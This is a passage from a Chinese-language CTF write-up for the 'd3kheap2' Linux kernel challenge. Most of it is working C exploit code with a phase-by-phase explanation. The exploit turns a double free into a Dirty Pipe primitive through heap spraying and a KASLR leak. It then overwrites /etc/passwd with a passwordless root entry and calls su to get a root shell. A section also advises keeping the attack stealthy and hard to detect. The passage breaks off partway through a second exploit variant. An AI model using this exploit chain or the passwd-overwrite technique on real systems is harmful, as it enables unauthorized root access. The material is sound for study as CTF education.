 * This function cleans up file descriptors and attempts privilege escalation
 * by executing the su command. The modified /etc/passwd file will grant root
 * shell access, completing the exploitation chain.
 */
void cleanup_and_get_root(void) {
    log.info("===========================================================");
    log.info("PHASE 8: CLEANUP AND PRIVILEGE ESCALATION                  ");
    log.info("===========================================================");

    // Clean up file descriptors
    log.info("Cleaning up file descriptors...");

    // Close device file descriptors
    if (dev_fd >= 0) {
        close(dev_fd);
        log.info("Closed device file descriptor %d", dev_fd);
    }

    if (victim_fd >= 0) {
        close(victim_fd);
        log.info("Closed target file descriptor %d", victim_fd);
    }

    // Clean up SKB sprayer resources
    log.info("Cleaning up SKB sprayer resources...");
    skb_cleanup();
    log.info("SKB sprayer cleanup completed");

    // Remove all message queues
    log.info("Removing all message queues...");
    for (int i = 0; i < MSG_QUEUE_NUM; i++) {
        if (msqid[i] >= 0) {
            if (msgctl(msqid[i], IPC_RMID, NULL) < 0) {
                log.warn("Failed to remove message queue %d: %s", i, strerror(errno));
            } else {
                log.debug("Removed message queue %d", i);
            }
        }
    }
    log.info("Removed %d message queues", MSG_QUEUE_NUM);

    // Attempt privilege escalation via su command
    log.warn("Attempting privilege escalation via su command...");
    system("su -c 'cat /root/flag' && su");

    log.success("Exploitation sequence completed");
}

/* =============================================================== *
 *  Main Function
 * =============================================================== */

/**
 * main - Main exploitation entry point
 * @param argc: Argument count
 * @param argv: Argument vector
 * @param envp: Environment variables
 * @return: Program exit status
 *
 * This function orchestrates the entire exploitation process by calling each
 * phase in sequence. The exploitation follows a logical flow from environment
 * setup to privilege escalation, leveraging a double-free vulnerability and
 * the Dirty Pipe technique to achieve arbitrary file modification and root
 * access.
 */
int main(int argc, char **argv, char **envp) {
    log.info("===========================================================");
    log.info("D3KHEAP2 EXPLOIT - DIRTY PIPE VARIANT                      ");
    log.info("===========================================================");

    // Execute exploitation phases in sequence
    setup_env();                     // Phase 1: Environment setup
    create_comms();                  // Phase 2: Communication channels creation
    heap_feng_shui();                // Phase 3: Heap feng shui and UAF creation
    corrupt_pipes();                 // Phase 4: Pipe corruption and object detection
    prepare_realloc();               // Phase 5: Heap reallocation preparation
    forge_pipe_buf();                // Phase 6: Forge and spray malicious pipe buffers
    trigger_dirty_pipe();            // Phase 7: Trigger Dirty Pipe vulnerability
    cleanup_and_get_root();          // Phase 8: Cleanup and privilege escalation

    return 0;
}
```

### 3-1. 利用流程总览

d3kheap2的利用代码实现了一个完整的权限提升技术链，通过八个阶段逐步实现从初始环境建立到最终权限获取的完整过程。整个代码结构清晰，遵循模块化设计原则，每个阶段解决特定的技术挑战，最终构建成一个稳定可靠的利用链。


```mermaid
graph TD
    A[开始] --> B[PHASE 1: 环境建立]
    B --> C[PHASE 2: 通信通道创建]
    C --> D[PHASE 3: 堆布局与UAF创建]
    D --> E[PHASE 4: 管道污染与对象检测]
    E --> F[PHASE 5: 堆内存重新分配准备]
    F --> G[PHASE 6: 伪造管道缓冲区]
    G --> H[PHASE 7: 触发漏洞]
    H --> I[PHASE 8: 清理与权限获取]
    I --> J[完成]

    style A fill:#f9f,stroke:#333,stroke-width:2px
    style J fill:#9f9,stroke:#333,stroke-width:2px
```

### 3-2. 阶段一：环境建立与资源配置

第一阶段的主要目标是建立稳定的执行环境，为后续复杂的内存操作提供必要的系统资源支持。通过细致的资源管理和环境配置，确保利用过程能够在受控条件下稳定执行。

**核心实现**：

```c
void setup_env(void) {
    struct rlimit rl = {0};

    // 提高文件描述符限制，为大量通信通道创建提供空间
    rl.rlim_cur = 4096;
    rl.rlim_max = 4096;
    if (setrlimit(RLIMIT_NOFILE, &rl) == -1) {
        log.error("Failed to expand file descriptor limit!");
        exit(EXIT_FAILURE);
    }

    // CPU核心绑定，减少多核环境下的竞争干扰
    bind_core(0);

    // 打开漏洞设备接口
    dev_fd = open("/proc/d3kheap2", O_RDWR);

    // 打开目标文件用于后续操作
    victim_fd = open("/etc/passwd", O_RDONLY);
}
```

**技术细节**：

1. **文件描述符限制扩展**：通过`setrlimit`系统调用将进程的文件描述符限制提高到4096。这是必要的，因为后续阶段需要创建大量套接字、管道和消息队列，每个都需要消耗文件描述符。标准限制通常为1024，不足以支持大规模堆喷操作。

2. **CPU核心绑定**：`bind_core(0)`函数将当前进程绑定到CPU核心0。这有多个技术优势：
    - 减少缓存一致性开销，提高内存访问速度
    - 避免进程在CPU间迁移，保持缓存热状态
    - 减少多核并发操作的竞争条件
    - 提高时序预测的准确性

3. **资源句柄获取**：
    - 打开`/proc/d3kheap2`获取漏洞设备文件描述符
    - 打开`/etc/passwd`获取目标文件描述符，用于后续文件操作

**数学建模**：设系统有N个CPU核心，绑定到核心0后，进程的调度时间片集中在单个核心。这减少了上下文切换的开销，使得堆操作的时间窗口更加可预测。调度延迟的方差从多核环境的σ²减少到单核环境的σ²/N。

### 3-3. 阶段二：通信通道创建与资源预分配

第二阶段创建所有必要的通信通道，为后续的内存操作提供基础设施。通过预先分配大量通信资源，为后续的堆布局控制创造有利条件。


```mermaid
sequenceDiagram
    participant 用户空间
    participant 内核
    participant 消息队列子系统
    participant 网络子系统
    participant 管道子系统

    用户空间->>消息队列子系统: msgget(IPC_PRIVATE, 0666|IPC_CREAT)
    loop 1024次 (MSG_QUEUE_NUM)
        消息队列子系统-->>用户空间: 返回消息队列ID
    end

    用户空间->>网络子系统: socketpair(AF_UNIX, SOCK_STREAM, 0)
    loop 32×90次 (SOCKET_NUM×SK_BUFF_NUM)
        网络子系统-->>用户空间: 返回套接字对
    end

    用户空间->>管道子系统: pipe()
    loop 480次 (MAX_PIPE_COUNT)
        管道子系统-->>用户空间: 返回管道描述符
    end
```

**技术实现**：

```c
void create_comms(void) {
    // 创建System V消息队列
    for (int i = 0; i < MSG_QUEUE_NUM; i++) {
        msqid[i] = msgget(IPC_PRIVATE, 0666 | IPC_CREAT);
    }

    // 初始化套接字对
    skb_spray_init(SOCKET_NUM, SK_BUFF_NUM);

    // 创建管道对
    for (int i = 0; i < MAX_PIPE_COUNT; i++) {
        pipe(pipe_fds[i]);
        write(pipe_fds[i][1], pipe_data, MAX_PIPE_COUNT);
    }
}
```

**技术细节**：

1. **消息队列创建**：创建1024个System V消息队列（`MSG_QUEUE_NUM=0x400`）。每个消息队列可以发送消息，这些消息在内核中分配`msg_msg`结构。通过控制消息大小，可以精确控制分配的内存缓存。

2. **套接字对初始化**：创建32个Unix域套接字对，每个套接字分配90个`sk_buff`结构。`sk_buff`是网络子系统核心数据结构，通过套接字操作可以精确控制其分配和释放。

3. **管道对创建**：创建480个管道对（`MAX_PIPE_COUNT=0xf0*2`）。每个管道对包含读写两个文件描述符，管道缓冲区`pipe_buffer`是`kmalloc-2k`缓存中的常见对象。

**资源管理**：预分配大量通信资源虽然消耗系统资源，但为后续的精确堆控制提供了必要的基础。通过提前分配，可以减少运行时的不确定性，提高利用的可靠性。

### 3-4. 阶段三：堆布局与UAF条件创建

第三阶段是核心利用链的关键，通过精确的堆操作创建类型混淆条件。这一阶段综合运用堆喷、释放和漏洞触发技术，构建可控的Use-After-Free原语。

**技术实现流程**：


```mermaid
flowchart TD
    A[开始堆布局] --> B[堆喷256个kmalloc-2k对象]
    B --> C[立即释放所有对象]
    C --> D[堆喷2880个sk_buff对象]
    D --> E[触发Double Free漏洞]
    E --> F[设置管道缓冲区大小为32页]
    F --> G[堆喷pipe_buffer对象]
    G --> H[类型混淆条件建立]

    B --> B1["add_chunk(i) 256次"]
    C --> C1["delete_chunk(i) 256次"]
    D --> D1[skb_spray填充空闲内存]
    E --> E1[再次delete_chunk触发漏洞]
    F --> F1[fcntl设置管道大小]
    G --> G1[pipe_buffer分配重叠内存]
```

**核心代码逻辑**：

```c
void heap_feng_shui(void) {
    // 1. 堆喷kmalloc-2k对象
    for (int i = 0; i < CHUNK_SPRAY_COUNT; i++) {
        add_chunk(i);
    }

    // 2. 立即释放，创建内存空洞
    for (int i = 0; i < CHUNK_SPRAY_COUNT; i++) {
        delete_chunk(i);
    }

    // 3. 堆喷sk_buff占用释放的内存
    skb_spray(skb_data, sizeof(skb_data));

    // 4. 触发Double Free漏洞
    for (int i = 0; i < CHUNK_SPRAY_COUNT; i++) {
        delete_chunk(i);  // 第二次释放，触发漏洞
    }

    // 5. 设置管道缓冲区大小并堆喷pipe_buffer
    for (int i = 0; i < MAX_PIPE_COUNT; i++) {
        fcntl(pipe_fds[i][0], F_SETPIPE_SZ, PIPE_BUFFER_SIZE);
    }
}
```

**内存状态演变**：

```
时间线分析:
t0: 初始状态 - 空闲列表为空
t1: 堆喷256个kmalloc-2k对象 - 活跃对象:256
t2: 释放256个对象 - 空闲列表:256个对象
t3: 堆喷2880个sk_buff - 从空闲列表分配，覆盖部分对象
t4: 触发Double Free - 目标地址A被释放两次
t5: 堆喷pipe_buffer - 其中一个pipe_buffer分配到地址A
结果: 地址A同时被sk_buff和pipe_buffer使用
```

**关键技术点**：

1. **堆喷与释放时序**：精确控制分配和释放的时序，确保内存状态符合预期。立即释放操作创建了确定的内存空洞模式。

2. **Double Free触发**：第二次调用`delete_chunk`时，由于引用计数为1，递减到0并再次释放内存，形成Double Free条件。

3. **管道缓冲区大小设置**：`fcntl(pipe_fds[i][0], F_SETPIPE_SZ, PIPE_BUFFER_SIZE)`将管道缓冲区大小设置为32页（0x1000\*32=131072字节）。这确保分配的`pipe_buffer`结构大小合适，能够与目标缓存对齐。

**概率分析**：设空闲列表初始有m=256个对象，堆喷n=2880个sk_buff。目标地址A被sk_buff占用的概率为：

$$
P_{\text{skb}} = 1 - (1 - \frac{1}{m})^n \approx 1 - e^{-n/m} = 1 - e^{-11.25} \approx 0.999987
$$

类似地，pipe_buffer分配到同一地址的概率也接近1。

### 3-5. 阶段四：管道污染与对象检测

第四阶段通过`splice`系统调用将目标文件映射到管道缓冲区，然后从重叠的`sk_buff`结构中提取内核地址信息。这一阶段实现了信息泄露，为绕过KASLR保护提供了关键数据。

**技术实现**：

```c
void corrupt_pipes(void) {
    // 1. 将目标文件映射到所有管道
    for (int i = 0; i < MAX_PIPE_COUNT; i++) {
        off_t offset = 0;
        splice(victim_fd, &offset, pipe_fds[i][1], NULL, 0x1000, 0);
        read(pipe_fds[i][0], pipe_data, i);  // 调整管道缓冲区状态
    }

    // 2. 搜索重叠的pipe_buffer结构
    for (int i = 0; i < SOCKET_NUM; i++) {
        for (int j = 0; j < SK_BUFF_NUM; j++) {
            skb_peek(i, skb_data, sizeof(skb_data));

            struct pipe_buffer *pipe_buf = (struct pipe_buffer *)skb_data;
            fake_pipe_buf = pipe_buf[0];
            victim_pipe_buf = pipe_buf[1];

            // 3. 验证提取的内核指针
            if (fake_pipe_buf.page > vmemmap_base &&
                fake_pipe_buf.ops > kernel_base) {
                victim_sock_idx = i;
                victim_pipe_idx = fake_pipe_buf.offset;
                return;
            }
        }
    }
}
```


```mermaid
sequenceDiagram
    participant 用户空间
    participant 文件系统
    participant 管道子系统
    participant 网络子系统

    用户空间->>文件系统: splice(victim_fd, pipe_fd)
    文件系统->>管道子系统: 映射文件页面到管道缓冲区

    loop 每个管道
        用户空间->>管道子系统: read调整offset/len
    end

    loop 每个sk_buff
        用户空间->>网络子系统: skb_peek读取数据
        网络子系统-->>用户空间: 返回可能包含pipe_buffer的数据

        用户空间->>用户空间: 分析数据，验证指针
    end

    用户空间->>用户空间: 记录受害套接字和管道索引
```

**关键技术点**：

1. **splice系统调用**：`splice`将文件数据直接从页面缓存移动到管道缓冲区，不经过用户空间。这建立了文件页面与管道缓冲区的直接映射关系。

2. **管道状态调整**：通过`read`操作调整管道缓冲区的`offset`和`len`字段，创建唯一的标识模式，便于后续识别目标管道。

3. **指针验证逻辑**：
    - `fake_pipe_buf.page > vmemmap_base`：验证page指针指向有效的内核内存区域
    - `fake_pipe_buf.ops > kernel_base`：验证ops指针指向内核代码区域
    - 通过这两个条件可以可靠地识别真正的`pipe_buffer`结构

4. **信息提取**：从重叠结构中提取的关键信息包括：
    - `pipe_buffer->page`：文件页面指针
    - `pipe_buffer->ops`：操作函数表指针，用于计算内核基址
    - `pipe_buffer->offset`：用作管道索引标识

**内存布局分析**：

```
重叠结构的内存视图:
通过sk_buff读取时看到的内容:
+----------------+ 0x00
| pipe_buffer[0] |
|  page指针      |
|  offset, len   |
|  ops指针       | <-- 用于计算内核基址
|  flags         |
|  private       |
+----------------+ 0x28
| pipe_buffer[1] |
|  page指针      |
|  offset, len   |
|  ops指针       |
|  flags         |
|  private       |
+----------------+ 0x50
```

**KASLR绕过计算**：获取`ops`指针后，可以计算实际的内核基址：

```c
uint64_t kernel_base = fake_pipe_buf.ops - ANON_PIPE_BUF_OPS_OFFSET;
```

其中`ANON_PIPE_BUF_OPS_OFFSET`是编译时确定的`anon_pipe_buf_ops`符号偏移。

### 3-6. 阶段五：堆内存重新分配准备

第五阶段通过选择性释放和重新分配优化内存布局，为最终的管道缓冲区修改创造精确条件。这一阶段展示了精细的堆控制技术。

**技术实现**：

```c
void prepare_realloc(void) {
    // 1. 释放非目标套接字的sk_buff
    for (int i = 0; i < SOCKET_NUM; i++) {
        if (i == victim_sock_idx) continue;
        for (int j = 0; j < SK_BUFF_NUM; j++) {
            skb_read(i, skb_data, sizeof(skb_data));
        }
    }

    // 2. 堆喷msg_msg填充释放的内存空洞
    memset(&msg_data, 0, sizeof(msg_data));
    for (int i = 0; i < MSG_QUEUE_NUM; i++) {
        *(size_t *)&msg_data.mtext[0] = MSG_TYPE;
        // ... 设置消息内容
        write_msg(msqid[i], &msg_data, sizeof(msg_data), MSG_TYPE);
    }

    // 3. 释放目标套接字的sk_buff
    for (int j = 0; j < SK_BUFF_NUM; j++) {
        skb_read(victim_sock_idx, skb_data, sizeof(skb_data));
    }
}
```

**内存状态管理**：

```
阶段5.1: 释放非目标sk_buff
原始状态: [skb0, skb1, ..., skbN] (包含目标sk_buff)
操作: 释放除目标外的所有sk_buff
结果: 创建多个内存空洞，目标sk_buff保持活跃

阶段5.2: 堆喷msg_msg填充空洞
操作: 分配1024个msg_msg结构
结果: msg_msg填充释放的内存空洞，优化内存布局

阶段5.3: 释放目标sk_buff
操作: 释放目标sk_buff
结果: 在目标地址创建精确的内存空洞
```

**技术优势**：

1. **选择性释放**：只释放非目标的sk_buff，保持目标对象活跃。这减少了内存状态的不确定性。

2. **msg_msg堆喷**：System V消息队列的`msg_msg`结构提供了另一种可控的内存分配接口。通过大量消息发送，可以精确控制内存布局。

3. **精确空洞创建**：最后释放目标sk_buff，在目标地址创建精确的内存空洞。这个空洞将被后续的伪造数据填充。

**时序控制**：这一阶段对时序高度敏感。通过以下措施减少竞争：

- 快速连续执行释放和分配操作
- 避免系统调用之间的不必要延迟
- 保持CPU绑定状态，减少调度干扰

### 3-7. 阶段六：堆喷伪造管道缓冲区

第六阶段构造伪造的`pipe_buffer`结构并通过sk_buff堆喷部署到目标内存区域。这是实现Dirty Pipe条件的关键步骤。

**技术实现**：

```c
void forge_pipe_buf(void) {
    // 1. 构造伪造的pipe_buffer结构
    fake_pipe_buf.page = victim_pipe_buf.page;
    fake_pipe_buf.offset = 0;
    fake_pipe_buf.len = 0;
    // flags字段将在内存布局中设置为0x10

    // 2. 准备sk_buff数据
    memcpy(skb_data, &fake_pipe_buf, sizeof(fake_pipe_buf));  // 复制0x28字节
    memcpy((char *)skb_data + sizeof(fake_pipe_buf),
           &fake_pipe_buf, sizeof(fake_pipe_buf));  // 再次复制0x28字节

    // 3. 堆喷伪造的pipe_buffer
    skb_spray(skb_data, sizeof(skb_data));
}
```

**伪造结构设计**：

```c
// pipe_buffer结构体布局 (0x28字节/40字节):
/* offset      |    size */  type = struct pipe_buffer {
/* 0x0000      |  0x0008 */    struct page *page;
/* 0x0008      |  0x0004 */    unsigned int offset;
/* 0x000c      |  0x0004 */    unsigned int len;
/* 0x0010      |  0x0008 */    const struct pipe_buf_operations *ops;
/* 0x0018      |  0x0004 */    unsigned int flags;
/* XXX  4-byte hole      */
/* 0x0020      |  0x0008 */    unsigned long private;

                               /* total size (bytes):   40 */
                             }
/*
flags字段的位含义:
bit4 (0x10): PIPE_BUF_FLAG_CAN_MERGE
   允许对管道缓冲区进行写入，即使底层页面是只读的
   这是实现Dirty Pipe的关键标志
 */
```

**内存部署策略**：

```
内存部署过程:
1. 目标地址A当前状态: 空闲（阶段5释放）
2. 堆喷sk_buff包含伪造的pipe_buffer数据
3. 其中一个sk_buff分配到地址A
4. 结果: 地址A包含伪造的pipe_buffer结构
5. 管道子系统看到的视图: pipe_buffer.flags = 0x10
```

**关键技术要点**：

1. **结构体大小**：`pipe_buffer`结构体实际大小为0x28字节（40字节），在64位系统上包含8字节的page指针、4字节offset、4字节len、8字节ops指针、4字节flags、4字节填充和8字节private字段。

2. **标志位设置**：`PIPE_BUF_FLAG_CAN_MERGE`（0x10）是Linux内核中管道缓冲区的关键标志。当设置时，允许对只读文件页面进行写入操作。

3. **内存对齐**：伪造的pipe_buffer结构必须正确对齐，确保内核在解释内存时不会发生错误。通过复制两个完整的0x28字节结构副本，增加了成功对齐的概率。

4. **数据一致性**：保持`page`和`ops`指针与原始值一致，避免内核在访问这些指针时发生错误。只修改`flags`字段，最小化对系统稳定性的影响。

**成功概率分析**：设目标地址A是空闲的，堆喷N个sk_buff，每个包含伪造数据。至少一个sk_buff分配到地址A的概率为：

$$
P = 1 - (1 - p)^N
$$

其中p是单个sk_buff分配到地址A的概率。通过大量堆喷（N=2880），可以使P接近1。

### 3-8. 阶段七：漏洞触发与文件修改

第七阶段触发Dirty Pipe漏洞，通过修改后的管道写入目标文件。这是利用链的最终执行阶段，实现了对系统关键文件的修改。

**技术实现**：

```c
void trigger_dirty_pipe(void) {
    // 触发Dirty Pipe漏洞
    write(pipe_fds[victim_pipe_idx][1], evil_data, strlen(evil_data));
}
```

**漏洞触发机制**：


```mermaid
sequenceDiagram
    participant 用户空间
    participant 管道子系统
    participant 页面缓存
    participant 文件系统

    用户空间->>管道子系统: write(pipe_fd, evil_data)
    管道子系统->>管道子系统: 检查pipe_buffer.flags
    Note right of 管道子系统: flags包含0x10 (PIPE_BUF_FLAG_CAN_MERGE)
    管道子系统->>页面缓存: 直接写入文件页面缓存
    页面缓存->>文件系统: 修改文件内存内容
    用户空间->>文件系统: fsync(pipe_fd)
    文件系统->>文件系统: 确保修改持久化
```

**文件修改细节**：

写入的恶意数据格式：

```
root::0:0:root:/root:/bin/sh
```

这个条目修改了`/etc/passwd`文件，创建了一个没有密码的root用户。字段含义：

- 用户名：root
- 密码字段：空（::表示无密码）
- UID：0（root）
- GID：0（root）
- 描述：root
- 家目录：/root
- 登录shell：/bin/sh

**技术原理**：

1. **绕过权限检查**：正常的文件写入需要检查文件的写入权限。`/etc/passwd`通常是只读的，普通用户无法修改。但`PIPE_BUF_FLAG_CAN_MERGE`标志允许绕过这个检查。

2. **直接页面缓存修改**：写入操作直接修改文件的页面缓存，而不是通过正常的文件系统接口。这避免了文件权限和锁的检查。

3. **内存映射一致性**：由于文件通过`splice`映射到管道缓冲区，修改管道缓冲区实际上修改了文件的页面缓存。后续的文件读取会看到修改后的内容。

**风险控制**：修改`/etc/passwd`是一个高风险操作。代码中使用了相对安全的修改方式：

- 只修改一行，最小化对系统的影响
- 修改root用户而不是添加新用户，减少检测可能性
- 可以很容易地恢复原始状态

### 3-9. 阶段八：资源清理与权限获取

最后阶段清理分配的资源并尝试获取权限。这是利用链的收尾工作，确保系统稳定性和利用的隐蔽性。

**技术实现**：

```c
void cleanup_and_get_root(void) {
    // 1. 关闭文件描述符
    close(dev_fd);
    close(victim_fd);

    // 2. 清理sk_buff资源
    skb_cleanup();

    // 3. 删除消息队列
    for (int i = 0; i < MSG_QUEUE_NUM; i++) {
        msgctl(msqid[i], IPC_RMID, NULL);
    }

    // 4. 尝试权限获取
    system("su -c 'cat /root/flag' && su");
}
```

**资源清理策略**：

```
清理的资源类型:
1. 文件描述符: 设备文件和目标文件
2. 套接字资源: 所有sk_buff相关资源
3. 消息队列: 所有System V消息队列
4. 管道: 隐式通过进程退出清理

清理顺序考虑:
1. 先关闭文件描述符，释放内核资源
2. 然后清理套接字，避免引用已关闭资源
3. 最后删除消息队列，确保无残留
```

**权限获取机制**：

通过修改后的`/etc/passwd`文件，现在可以使用空密码以root用户身份登录。`system("su")`命令启动su程序，它会：

1. 读取`/etc/passwd`，发现root用户无密码
2. 允许无密码切换到root
3. 启动具有root权限的shell

**系统稳定性考虑**：

1. **资源泄漏预防**：仔细清理所有分配的资源，避免内核资源泄漏。
2. **错误处理**：对每个清理操作进行错误检查，但不因个别失败而终止。
3. **优雅降级**：即使清理部分失败，也不影响已获得的权限。

**隐蔽性增强**：

1. **日志最小化**：利用过程尽量减少内核日志输出。
2. **资源快速释放**：及时释放不再需要的资源，减少系统监控的可检测性。
3. **正常行为模拟**：权限获取通过正常的su命令，符合常规系统管理行为。

### 3-10. 技术总结

d3kheap2利用代码实现了一个完整的内核权限提升技术链，通过八个阶段的系统性操作逐步实现从环境建立到权限获取的完整过程。第一阶段建立稳定的执行环境，通过扩展文件描述符限制和CPU核心绑定为后续操作提供基础；第二阶段创建大量通信通道，包括1024个System V消息队列、2880个sk_buff结构和480个管道对，为精细堆控制提供基础设施；第三阶段通过精确的堆喷、释放和Double Free触发构建类型混淆条件，实现sk_buff与pipe_buffer在kmalloc-2k缓存中的结构重叠；第四阶段通过splice系统调用将目标文件映射到管道缓冲区，从重叠结构中提取内核地址信息，绕过KASLR保护；第五阶段通过选择性释放和msg_msg堆喷优化内存布局，为最终的管道缓冲区修改创造精确条件；第六阶段构造并部署伪造的pipe_buffer结构，特别注意的是pipe_buffer结构体大小为0x28字节，通过设置PIPE_BUF_FLAG_CAN_MERGE标志为后续文件写入创造条件；第七阶段触发Dirty Pipe漏洞，通过修改后的管道直接写入目标文件的页面缓存，实现系统关键文件的修改；最后阶段清理分配的资源并获取权限，确保系统稳定性和利用的隐蔽性。整个利用过程在严格的内核安全机制约束下，展现了跨缓存利用、堆布局控制、结构重叠、类型混淆、实时信息泄露和文件操作劫持等多种高级技术的系统集成，构建了从单一Double Free漏洞到完整权限提升的复杂技术链，体现了现代内核漏洞利用工程的高度精确性和技术深度。

## 4. 测试结果

<div style="text-align: center; margin: 2rem 0;">
  
</div>

## 5. 进阶分析：Dirty Pipe其二

exploit核心代码如下：

```c
#define PAGE_CACHE_PIPE_BUF_OPS 0xffffffff824290b0
#define ANON_PIPE_BUF_OPS       0xffffffff824276c8

#define CHUNK_SPRAY_COUNT   0x100
#define FIRST_MSG_TYPE      0x41
#define SECOND_MSG_TYPE     0x42
#define FIRST_MSG_SIZE      (0x1000 - sizeof(struct msg_msg))
#define SECOND_MSG_SIZE     (0x1000 - sizeof(struct msg_msg) + 0x800 - sizeof(struct msg_msgseg))
#define MSG_QUEUE_NUM       0x1000
#define SOCKET_NUM          64
#define SK_BUFF_NUM         1
#define MAX_PIPE_COUNT      0xf0

struct {
    long mtype;
    char mtext[FIRST_MSG_SIZE];
} first_msg_data;

struct {
    long mtype;
    char mtext[SECOND_MSG_SIZE];
} second_msg_data;

int dev_fd;                                 // File descriptor for vulnerable device
int victim_fd;                              // File descriptor for /etc/passwd
int msqid[MSG_QUEUE_NUM];                   // Message queue IDs
int pipe_fds[MAX_PIPE_COUNT][2];            // Pipe file descriptors
size_t pipe_data[0x1000 / 8] = {0};         // Pipe data
char skb_data[2048 - 320] = {0};            // sk_buff data
int victim_qid = -1;                        // Victim message queue ID
int overlap_qid = -1;                       // Overlapping message queue ID
int victim_sock_idx = -1;                   // Victim socket index
int victim_pipe_idx = -1;                   // Victim pipe index
size_t *fake_msg = NULL;                    // Fake message pointer
size_t *leak_data = NULL;                   // Leaked kernel data
struct pipe_buffer victim_pipe_buf = {0};   // Corrupted pipe buffer
char evil_data[] = "root::0:0:root:/root:/bin/sh\n";

/* =============================================================== *
 *  Device Control Macros
 * =============================================================== */
#define OBJ_ADD  0x3361626e
#define OBJ_DEL  0x74747261
#define OBJ_EDIT 0x54433344
#define OBJ_SHOW 0x4e575046

struct d3kheap2_ureq {
    size_t idx;  // Object index
};

/* =============================================================== *
 *  Device Operation Wrappers
 * =============================================================== */

/**
 * add_chunk - Add kernel object via ioctl
 * @param idx: Object index
 * @return: ioctl return value
 *
 * This function adds a kernel object at the specified index by calling the
 * device's ADD ioctl command. Used for initial heap spraying.
 */
int add_chunk(size_t idx) {
    struct d3kheap2_ureq ureq = { .idx = idx };
    return ioctl(dev_fd, OBJ_ADD, &ureq);
}

/**
 * delete_chunk - Delete kernel object via ioctl
 * @param idx: Object index
 * @return: ioctl return value
 *
 * This function deletes a kernel object at the specified index by calling the
 * device's DELETE ioctl command. Used to free objects and trigger UAF.
 */
int delete_chunk(size_t idx) {
    struct d3kheap2_ureq ureq = { .idx = idx };
    return ioctl(dev_fd, OBJ_DEL, &ureq);
}

/**
 * edit_chunk - Edit kernel object via ioctl
 * @param idx: Object index
 * @return: ioctl return value
 *
 * This function edits a kernel object at the specified index by calling the
 * device's EDIT ioctl command. Not used in current exploit.
 */
int edit_chunk(size_t idx) {
    struct d3kheap2_ureq ureq = { .idx = idx };
    return ioctl(dev_fd, OBJ_EDIT, &ureq);
}

/**
 * show_chunk - Show kernel object via ioctl
 * @param idx: Object index
 * @return: ioctl return value
 *
 * This function shows a kernel object at the specified index by calling the
 * device's SHOW ioctl command. Not used in current exploit.
 */
int show_chunk(size_t idx) {
    struct d3kheap2_ureq ureq = { .idx = idx };
    return ioctl(dev_fd, OBJ_SHOW, &ureq);
}

/**
 * create_pipe_pair - Create a pipe pair for heap spraying
 * @pipe_idx: Index in pipe_fds array
 *
 * Creates a pipe and stores read/write ends in global array.
 */
void create_pipe_pair(int pipe_idx) {
    if (pipe(pipe_fds[pipe_idx]) < 0) {
        log.error("Pipe creation failed at index %d", pipe_idx);
        exit(EXIT_FAILURE);
    }
}

/**
 * resize_pipe_buffer - Resize pipe buffer capacity
 * @pipe_idx: Index in pipe_fds array
 * @new_size: New buffer size in bytes
 *
 * Adjusts pipe buffer size to control allocation in specific slab caches.
 */
void resize_pipe_buffer(int pipe_idx, int new_size) {
    if (fcntl(pipe_fds[pipe_idx][0], F_SETPIPE_SZ, new_size) < 0) {
        log.error("Pipe resize failed for pipe %d", pipe_idx);
        exit(EXIT_FAILURE);
    }
}

/**
 * setup_environment - Setup exploitation environment
 *
 * This function prepares the exploitation environment by increasing file
 * descriptor limits, binding to CPU core 0 for stability, and opening the
 * vulnerable device and target file (/etc/passwd). This establishes the
 * foundation for all subsequent operations.
 */
void setup_environment(void) {
    struct rlimit rl = {0};

    log.info("===========================================================");
    log.info("PHASE 1: ENVIRONMENT SETUP                                 ");
    log.info("===========================================================");

    // Increase file descriptor limit for spraying
    rl.rlim_cur = 4096;
    rl.rlim_max = 4096;
    if (setrlimit(RLIMIT_NOFILE, &rl) == -1) {
        log.error("Failed to expand file descriptor limit!");
        exit(EXIT_FAILURE);
    }
    log.info("File descriptor limit expanded to 4096");

    // Bind to CPU core 0 for stability
    bind_core(0);

    // Open vulnerable device
    dev_fd = open("/proc/d3kheap2", O_RDWR);
    if (dev_fd < 0) {
        log.error("Failed to open /proc/d3kheap2!");
        exit(EXIT_FAILURE);
    }
    log.info("Opened vulnerable device at fd: %d", dev_fd);

    // Open target file (/etc/passwd)
    victim_fd = open("/etc/passwd", O_RDONLY);
    if (victim_fd < 0) {
        log.error("Failed to open /etc/passwd!");
        exit(EXIT_FAILURE);
    }
    log.info("Opened target file /etc/passwd at fd: %d", victim_fd);

    log.success("Environment setup completed successfully");
}

/**
 * prepare_heap_layout - Prepare heap layout for exploitation
 *
 * This function prepares the heap layout by:
 * 1. Creating pipe buffers for information leak
 * 2. Creating message queues for heap control
 * 3. Initializing SKB sprayer for UAF exploitation
 *
 * This consolidated setup phase ensures all heap manipulation objects
 * are ready before triggering the vulnerability.
 */
void prepare_heap_layout(void) {
    log.info("===========================================================");
    log.info("PHASE 2: HEAP LAYOUT PREPARATION                          ");
    log.info("===========================================================");

    /* ============================================================== *
     *  Step 2.1: Pipe Buffer Preparation
     * ============================================================== */
    log.info("Creating %d pipe pairs for heap spraying...", MAX_PIPE_COUNT);
    for (int i = 0; i < MAX_PIPE_COUNT; i++) {
        create_pipe_pair(i);
    }
    log.success("Created %d pipe pairs", MAX_PIPE_COUNT);

    log.info("Splicing /etc/passwd data into pipe buffers...");
    for (int i = 0; i < MAX_PIPE_COUNT; i++) {
        off_t offset = 0;
        if (splice(victim_fd, &offset, pipe_fds[i][1], NULL, 0x1000, 0) < 0) {
            log.error("Failed to splice to pipe %d", i);
            exit(EXIT_FAILURE);
        }
    }
    log.success("Populated pipe buffers with file data");

    log.info("Starting partial data reads to generate pipe fingerprint...");
    for (int i = 0; i < MAX_PIPE_COUNT; i++) {
        read(pipe_fds[i][0], pipe_data, i);
    }
    log.success("Pipe fingerprinting complete, ready for index resolution");

    /* ============================================================== *
     *  Step 2.2: Message Queue Preparation
     * ============================================================== */
    log.info("Creating %d message queues...", MSG_QUEUE_NUM);
    for (int i = 0; i < MSG_QUEUE_NUM; i++) {
        if ((msqid[i] = msgget(IPC_PRIVATE, 0666 | IPC_CREAT)) < 0) {
            log.error("Failed to create msg_queue %d!", i);
            exit(EXIT_FAILURE);
        }
    }
    log.success("Created %d message queues", MSG_QUEUE_NUM);

    log.info("Sending first messages (kmalloc-4k) to all queues...");
    for (int i = 0; i < MSG_QUEUE_NUM; i++) {
        if (write_msg(msqid[i], &first_msg_data,
                     sizeof(first_msg_data), FIRST_MSG_TYPE) < 0) {
            log.error("Failed to send first msg to queue %d!", i);
            exit(EXIT_FAILURE);
        }
    }
    log.success("All queues populated with initial messages");

    /* ============================================================== *
     *  Step 2.3: SKB Sprayer Initialization
